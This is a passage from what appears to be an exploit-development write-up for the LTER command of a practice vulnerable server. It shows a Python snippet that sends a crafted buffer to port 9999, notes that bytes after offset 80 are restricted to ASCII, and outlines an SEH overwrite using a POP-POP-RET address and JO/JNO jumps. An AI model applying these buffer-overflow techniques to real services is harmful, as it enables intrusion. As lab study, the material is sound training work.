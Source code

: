 ```term

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Checking the stack, we see an interesting response.

![](/assets/img/LTER/5.png)

##### Interesting, it seems as after character 80, no other byte will be parsed as desired. 

#### Controlling the flow.

##### As in any other SEH Based exploit, we require a PPR address, along with an jump, and, due to the fact that bytes such as EB and 90 are discarded, it must be ascii, such as a JO/JNO for example.

###### Listing all modules
